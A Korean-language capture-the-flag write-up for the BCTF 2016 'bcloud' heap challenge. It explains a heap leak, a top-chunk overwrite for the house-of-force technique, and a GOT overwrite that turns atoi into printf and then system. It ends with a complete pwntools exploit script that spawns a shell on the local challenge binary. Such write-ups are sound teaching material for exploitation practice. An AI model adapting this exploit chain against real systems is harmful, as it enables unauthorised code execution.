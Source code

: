 ```yaml
---
layout: post
title: [BCTF 2016] bcloud write-up
---
```


하우스 오브 포스

이 문제는 house of force기법을 이용한 힙 문제인데, format string bug를 trigger하는 과정이 필요하고 나한테는 다소 복잡하지만 이해하니 재밌는 문제였다.

file

----------

![](https://lh5.googleusercontent.com/FIV_0BSv9zW1O-tQJXfJVPfMbPNO0f_VxKrOrTPTDRE_ekMeJ-Ved3EwoyDkgMQ03cvJ09KfHNZJAHlGckohz6eEYbgP1FtUSbrSAod3xTLr_iVSkr9JH7AcQyNDHa3oz-2JuFby)

ELF 32bit 파일이다.

보호기법

----------

![](https://lh6.googleusercontent.com/HUvQvt63qWol71IM5HmJJLOkS779ya4MQIG4hN91vApEAZhzi_b4_UXB6YfeMauIilSUTBHRpOPvMwiL0S5A7g6dt28rPHTokc_syCRDQf-3sqAWcmFbzTVGo6hl4dUTXcB3Ib--)

canary와 nx가 걸려있다.

분석

----------

main함수를 보면 먼저 while문 전에 함수를 호출한다.

![](https://lh4.googleusercontent.com/RovwjnILZBHQ1rBuHoLZoilao822YmsH3SUbGe3inTmSEXyPYv1_MWh4wVwOvwe0_azMXswOsWsWLuM6NJdyuF3Hdw2SD7S0LgKVC_ONRlot6D86JvoEqrfH3CFUEddNWWmVZogo)

input_name함수를 보면

![](https://lh4.googleusercontent.com/O3K-LqbMvgsvQRbTmcE0VpS7b_5OkXNGnIBtbia-IVc94GGPykr0VyBsptWfMoeXsBi0vEJxWuOf--sDHXgTvoNr2QByqyHA5d04hBfaLQ4D9famyjCZQZka_Kd_sCGNNGkwfWRi)

Input your name: 이라는 문구가 출력되고 input_read 함수가 실행된다.

![](https://lh3.googleusercontent.com/KAENkEt-hSt5RJinfjjwTQ-HuO7afU0nLl0fKqz3UZ8APfmW_KoOhzY5OCD46dFS9CTTS28nXTftRQHqkmEjbsYrW2wNS5IfLKbz_mlRWEpf22A0O_UYu6gK0La8Q0OO4q7XjSa6)

2번째 인자까지 입력 받고, 개행문자가 도중에 있으면 break한다.

다시 input_name 함수로 돌아와서,

![](https://lh4.googleusercontent.com/Ma-_hAmP-qCsxy5aMgqeaftKkS6oIBs85m9qjPPL9PVU2fPmhLMOBk0OcaS8ThT4yyubdwNTQxR7J4KwLX6NDDUTthoTT09mdtWI8Yk4mtBrJeKpbj_WK0YzgSM9ZvAKzkDGZN8K)

v2 를 0x40(64) 만큼 malloc 해주고 입력 받은 name을 chunk에 strcpy를 진행한다.

malloc 공간이 64이고 입력도 64까지 받을 수 있다. sub_8048779 함수를 보자.

![](https://lh5.googleusercontent.com/b3tCjYYA0cj4Y8ozFNflIJ5RALIOoQVuJSl5NiBArCLKi-j09LRhQ_S-DpCNLR48VsWA67_WpxIenVz7NjQuqyhyeGDRWVTfjYcvZKhClG_H0tauubQx-ro4EbMFA4sqZpjG5848)

%s로 v2의 data를 출력해준다. 아까 입력할 때 64를 채워서 입력하면, 뒤에 heap base가 leak 된다. 이유는 널이 없으니 문자열의 끝을 인식 못한다.

이를 이용해서 heap base를 구하고 Top chunk의 주소를 구할 수 있다.

![](https://lh3.googleusercontent.com/fwJX-JZWv1O6E6XlV_BLpAt-w8rrFSTWGajs533D2Nibx7tEa2CEkEEZqZ9SZ2gGfVWVPomMZmI31DzNZVfnj-Qwarc8QHnp_IRYp_q-tpnSosOXV8eF_VJZapLViyvp9j6qFh1D)

sub_804884e 함수이다.

![](https://lh3.googleusercontent.com/Ql0xS7wRu3b86CuI_WK2z_DnWWqgaFKxE-A8P6SxKoRKHVJ1a732pK3n6-SFupH4ZHqh9SKRoJNvpLaxUwaB-Ic3hZFiViS29c9zKHg7dmysR8lTiU_UyfVZVRlhrESE3x0JgmGs)

Org를 &s에 입력 받고 Host에 &v3을 입력 받는다.

v4와 v2를 0x40(64)만큼 차례대로 할당 한다.

두 번째 malloc chunk의 data에는 Host가 strcpy 된다.

마지막 malloc chunk의 data에는 Org가 strcpy 된다.

마지막 malloc chunk에서 data를 0x40만큼 최대로 채워주고 +4만큼 더 채우고 더 입력받으면 Top chunk를 control할 수 있게 된다.

근데 입력을 64만큼 밖에 안 받는다. 일단 data는 다 채울 수 있게 되는데 8바이트를 더 입력받을 수 있어야 Top chunk를 control 할 수 있다.

&s의 위치를 보면 bp-0x9c 에 위치해 있다. 64만큼 입력을 받으면 v2 포인터가 있다. 어랏?

64(data) 만큼을 채우고 다음 4바이트는 어쨌든 값이 들어가 있을테니깐 overwrite가 가능하고 이제 그 다음 4바이트가 Top chunk 인데, v3, 즉, Host로 처음 입력 받는 4바이트로 Top chunk를 조절 할 수 있다.

![](https://lh6.googleusercontent.com/GiLU8JO00WsypGJaJAP3oPeJ6FfzaN-bPLSdOecDX89DTuiChNVGFZcP4t0qWCcmOweXRwdgqyl-p47aO7K95nq1yYTpeWwd3WOJRny3puuH7lWb-43tukQ1IKxoaWu1yIXq9P_D)

이제 while 문을 반복한다.

1부터 보자.

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

v2에 input을 받는 것 같다 sub_8048709를 보겠다.

![](https://lh3.googleusercontent.com/X5hmFDM3fTFF8weZkMStniH1YFzb1-qOX1PDdCI8JWaD3Lf_Tjlxl16W8Oe7SBxYC16dUQ1OgGF3TwRWq89O7TMg4ZFKa5BH3IsBlrQhH4Kpjf9-nak7LlyXb-x4EZko0BWu4jlS)

여기서 좀 꿀잼인데 input_read로 nptr에 입력을 받고

이를 atoi로 숫자로 변형해준다.

atoi(&nptr)

atou의 got 를 printf로 got overwrite를 통해 format string bug를 trigger 할 수 있다.

이를 이용해 libc를 leak 할 수 있게 된다.

다시 돌아와서,

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

아까 heap overflow로 top chunk를 0xffffffff로 control할 수 있게 되었다.

여기서 v2에 atoi로 숫자를 입력 받고, v2+4만큼 malloc을 할당해준다.

이 쯤에서 house of force의 충족 요건을 확인 해보겠다.

1. top chunk를 0xffffffff로 조작이 가능해 malloc을 원하는 만큼 할당할 수 있어야 한다.

2. malloc size를 원하는 만큼 control해 원하는 곳에 할당시킬 수 있어야 한다.

3. 원하는 곳에 malloc 된 곳에 user data로 컨트롤이 가능해야한다. (예를 들어 got overwrite)

충족하니 house of force 기법을 이용해 공격하면 된다.

atoi got를 printf plt로 overwrite해야한다.

(atoi got) - (top chunk) - header(8) 을 한 값을 넣어야 하지만 이 문제에서는 -4만큼 더 빼서

(atoi got) - (top chunk) - header(8) - 4 한 size를 할당해야한다.

그리고 user data를 입력할 때 바로 printf plt로 덮는게 아니라 “AAAA”+p32(printf_plt) 이렇게 덮어야 한다.

이렇게 하면 atoi가 printf로 바껴 fsb가 가능해진다.

offset구하고 printf_got넣고 libc leak했다.

system offset까지 구해주고,

다시 house of force를 통해 atoi->printf로 바뀐 atoi_got를 system_got로 바꿔야 한다.

다행하게도 3번메뉴에서 user data를 수정 할 수 있다.

근데 3을 입력하려는데 입력이 안된다. 이는

atoi가 printf로 바뀌었기 때문.

3이면 문자를 3개 이어 붙혀서 send하면 된다.

즉, atoi로 3이면 pritnf “AAA”와 같다.

그렇게 해서 다시 AAAA+p32(system)으로 덮어주고 nptr을 /bin/sh로 바꾸어주면 쉘을 얻을 수 있다.

libc를 어떻게 leak할 수 있는지 leak vector를 찾는게 좀 중요한 문제였고 이 문제를 통해 힙의 대한 이해와 hof 기법에 대한 이해도가 높아진 것 같아서 배운게 많은 좋은 문제였던 것 같다.

> exploit.py

----------
```python
from pwn import  *

s = process("./bcloud")
e = ELF("./bcloud")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
#context.log_level = 'debug'

s.recv()
s.send("A"*64)
s.recvuntil("A"*64)
atoi_got = e.got['atoi']
printf_plt = e.plt['printf']
printf_got = e.got['printf']
leak_heap=u32(s.recv()[:4])
heap_base = leak_heap -  0x8
top_chunk = heap_base +  224  # (header(8) + data(64))*3
log.success("leak_heap:"  + hex(heap_base))
log.success("top_chunk:"  + hex(top_chunk))
s.send("B"*64)
s.recvuntil("Host:\n")
s.sendline("\xff\xff\xff\xff")
s.recvuntil(">>\n")
size = atoi_got - top_chunk -  8  -  4

s.sendline("1")
s.recvuntil(":\n")
s.sendline(str(size))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
s.sendline("8")
s.recvline(":\n")
s.sendline("AAAA"+p32(printf_plt))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
payload = p32(printf_got)+"k"+"%6$s"
s.sendline(payload)
s.recvuntil("k")
leak_printf=u32(s.recv()[:4])
log.success(hex(leak_printf))
base = leak_printf - libc.symbols['printf']
log.success(hex(base))
system = base + libc.symbols['system']
log.success(hex(system))
s.sendline("AAA")
s.recv()
s.sendline("333")
s.recv()
s.sendline("1")
s.recv()
s.sendline("AAAA"+p32(system))
s.sendline("/bin/bash")
s.recv()
s.recv()
s.interactive()
```
  

  

![](https://lh3.googleusercontent.com/Jy_cJuQdEI0ZiZHOiqFuAg7h8p2dOft3O-XMYGwZqN4kYjIBvO4lU7sSDXZC3zcW4QMIFJhpB8DZfyFqNn1m4LLZ6SX__P7YBjPFUiKdHI6CLYy03y6HWMGiN2XjRHqYbEtK53Qw)
